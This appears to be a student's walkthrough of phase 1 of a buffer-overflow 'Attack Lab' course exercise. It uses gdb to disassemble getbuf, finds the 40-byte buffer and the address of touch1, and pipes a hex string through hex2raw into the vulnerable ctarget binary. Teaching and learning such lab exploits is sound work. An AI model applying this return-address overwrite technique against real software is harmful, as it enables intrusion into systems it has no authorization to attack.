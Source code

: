 # Attack Lab

## phase 1

1. use gdb to run ctarget

    ```
    gdb ctarget
    ```

2. to check the assembly code

    ```
    (gdb) disas getbuf
    Dump of assembler code for function getbuf:
        0x00000000004017a8 <+0>:     sub    $0x28,%rsp
        0x00000000004017ac <+4>:     mov    %rsp,%rdi
        0x00000000004017af <+7>:     callq  0x401a40 <Gets>
        0x00000000004017b4 <+12>:    mov    $0x1,%eax
        0x00000000004017b9 <+17>:    add    $0x28,%rsp
        0x00000000004017bd <+21>:    retq   
    End of assembler dump.
    ```

    This function will get a string of 0x28 bytes (that is, 40 characters), and finally execute the retq command.

3. find address of touch1

    ```
    (gdb)disas touch1
    Dump of assembler code for function touch1:
        0x00000000004017c0 <+0>:     sub    $0x8,%rsp
    ```

4. combine the values to ctarget.1.txt and run

    ```
    ./hex2raw < ctarget.1.txt | ./ctarget -q
    ```
